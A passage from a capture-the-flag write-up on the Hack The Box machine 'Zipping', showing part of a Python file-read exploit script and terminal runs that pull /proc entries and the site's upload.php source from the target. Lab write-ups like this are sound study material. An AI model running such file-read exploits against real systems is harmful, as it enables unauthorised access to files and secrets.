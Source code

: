 ```python
    download_url = exp(fp)
    # print(f"[+] URL : {download_url}")
    r = requests.get(download_url)
    if r.status_code != 200:
        print(f"[-] Download returned code : {r.status_code}")
        sys.exit(1)
    return r.text


def main():
    if not os.path.exists(TEMP_DIR):
        os.mkdir(TEMP_DIR)
    os.chdir(TEMP_DIR)
    fp = sys.argv[1]
    print(read_file(fp))


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 read_file.py <file_path>")
        sys.exit(1)
    main()
```

Check some interesting places

```bash
┌──(bravosec㉿fsociety)-[~/htb/Zipping/exploit]
└─$ python read_file.py /proc/self/cmdline
/usr/sbin/apache2-kstart

┌──(bravosec㉿fsociety)-[~/htb/Zipping/exploit]
└─$ python read_file.py /proc/self/environ
[-] Download returned code : 404
```

### Analyze source code

#### upload.php

```bash
┌──(bravosec㉿fsociety)-[~/htb/Zipping/exploit]
└─$ python read_file.py /proc/self/cwd/upload.php | tee ../loot/upload.php
```

I can't control `$zipFile` and `$uploadPath`, so there's no command injection
